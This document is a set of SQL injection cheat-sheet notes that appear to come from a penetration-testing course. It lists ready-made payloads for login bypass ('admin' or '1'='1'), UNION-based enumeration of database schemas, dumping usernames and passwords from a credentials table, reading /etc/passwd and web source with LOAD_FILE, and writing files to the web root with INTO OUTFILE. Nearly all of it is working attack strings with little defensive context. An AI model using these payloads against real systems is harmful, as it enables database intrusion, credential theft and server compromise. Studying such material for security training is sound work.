     
    
    | Payload | URL Encoded |
    | --- | --- |
    | ' | %27 |
    | " | %22 |
    | # | %23 |
    | ; | %3B |
    | ) | %29 |
- OR Injection
    - admin' or '1'='1
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL Injection#authentication-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)
- Comments
    - `--` or `#`
    - need empty space after two dashes
    - `-- -`
- Union
    - SELECT * FROM ports UNION SELECT * FROM ships;
    - UNION SELECT username, 2, 3, 4 from passwords-- ‘
    - Check
        - ' order by 1-- -
        - ' order by 2-- -
        - cn' UNION select 1,2,3,4-- -
    - cn' UNION select 1,@@version,3,4-- -
- INFORMATION_SCHEMA Database
    - table SCHEMATA in the INFORMATION_SCHEMA database
    - SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
    - cn' UNION select 1,database(),2,3-- -
    - cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
    - cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
    - cn' UNION select 1, username, password, 4 from dev.credentials-- -
- Reading Files
    - FILE privilege
    - cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
    - cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
    - cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
    - cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
- Load File
    - SELECT LOAD_FILE('/etc/passwd');
    - cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
    - cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
- Writing Files
    - User with FILE privilege enabled
    - MySQL global secure_file_priv variable not enabled
    - Write access to the location we want to write to on the back-end server
    - SHOW VARIABLES LIKE 'secure_file_priv';
    - SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv”
    - cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
    - SELECT * from users INTO OUTFILE '/tmp/credentials';
    - select 'file written successfully!' into outfile '/var/www/html/proof.txt’